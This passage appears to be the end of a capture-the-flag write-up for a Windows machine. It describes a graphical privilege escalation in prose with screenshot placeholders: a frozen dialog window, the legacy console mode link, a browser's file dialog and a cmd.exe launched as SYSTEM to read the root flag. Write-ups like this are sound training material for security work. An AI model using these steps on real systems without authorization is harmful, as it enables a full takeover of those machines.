

With this frozen window selected we open the `system menu using (ALT+Space)` and going to `properties` where we will click the `legacy console mode` link :



We then have to select a browser (Anything other than Edge). Once the browser is open we will hit `Crl+o` to optn a file dialog box, where we will select `cmd.exe`:



Select `Save` in the popup box and then when the cmd.exe file completes its download execute it by double clicking it in the browser download tab:



This will open up a cmd.exe window as `nt authority\system`:



The root.txt flag can be found in the Administrators Desktop folder solving the challenge!



